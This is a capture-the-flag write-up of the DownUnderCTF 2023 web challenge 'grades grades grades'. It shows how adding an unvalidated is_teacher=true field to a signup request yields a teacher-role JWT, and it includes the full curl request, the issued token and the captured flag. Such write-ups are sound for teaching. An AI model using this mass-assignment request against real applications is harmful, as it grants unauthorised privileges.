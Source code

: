 ```yaml
---
title: DownUnderCTF 2023 - grades grades grades
description: Writeup for grades grades grades web challenge
date: 2023-12-18
tldr: Sign up and see those grades :D! How well did you do this year's subject?
draft: false
tags: ["ctf", "writeup", "web"]
---
```




# grades grades grades 158pts web

We are presented with a web page for teacher/student interaction students are able to see their marks, teaches can grade assignments. So I think the goal here is to get the teacher role.

We can signup to get JWT saved in a cookie.

When signing up normally we see that we do not have a teacher role `https://web-grades-grades-grades-c4627b227382.2023.ductf.dev/grades` yet...

Looking at the code a bit the following two functions look interesting

```python
def requires_teacher(f):
    @wraps(f)
    def decorated(*args, **kwargs):
        token = request.cookies.get('auth_token')
        if not token:
            return jsonify({'message': 'Token is missing'}), 401
        try:
            data = decode_token(token)
            if data is None or data.get("is_teacher") is None:
                return jsonify({'message': 'Invalid token'}), 401
            if data['is_teacher']:
                request.user_data = data
            else:
                return jsonify({'message': 'Invalid token'}), 401
        except jwt.DecodeError:
            return jsonify({'message': 'Invalid token'}), 401

        return f(*args, **kwargs)

    return decorated
```

```python
def create_token(data):
    token = jwt.encode(data, SECRET_KEY, algorithm='HS256')
    return token
```


Seems like the data used to create the JWT is not validated at all. Could we just supply `is_teacher` when signing up to get elevated priviledges JWT?


```bash
curl -L -c /tmp/cookies.txt 'https://web-grades-grades-grades-c4627b227382.2023.ductf.dev/signup' \
  -H 'authority: web-grades-grades-grades-c4627b227382.2023.ductf.dev' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'accept-language: en-US,en;q=0.9,cs-CZ;q=0.8,cs;q=0.7' \
  -H 'cache-control: max-age=0' \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'dnt: 1' \
  -H 'origin: https://web-grades-grades-grades-c4627b227382.2023.ductf.dev' \
  -H 'referer: https://web-grades-grades-grades-c4627b227382.2023.ductf.dev/signup' \
  -H 'sec-ch-ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Windows"' \
  -H 'sec-fetch-dest: document' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-site: same-origin' \
  -H 'sec-fetch-user: ?1' \
  -H 'sec-gpc: 1' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36' \
  --data-raw 'stu_num=curaksad&stu_email=curak%40curaks.cz&password=curaks&is_teacher=true' \
  --compressed
```


Lets grab the newly crafted JWT 
```bash
cat /tmp/cookies.txt
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

#HttpOnly_web-grades-grades-grades-c4627b227382.2023.ductf.dev  FALSE   /       FALSE   0       auth_token      eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdHVfbnVtIjoiY3VyYWtzYWQiLCJzdHVfZW1haWwiOiJjdXJha0BjdXJha3MuY3oiLCJwYXNzd29yZCI6ImN1cmFrcyIsImlzX3RlYWNoZXIiOiJ0cnVlIn0.6FdfucpfZsYxxd8KSCcBbKibcQ9Gw9sEnhXJ-bB-ipU
```

Now we can try changing the JWT to this teacher token - it looks like it worked as we see the role being teacher now. 

Accesing `/grades_flag` presents us with a flag

```
SUBJECT    GRADE
Flag    DUCTF{Y0u_Kn0W_M4Ss_A5s1GnM3Nt_c890ne89c3}
```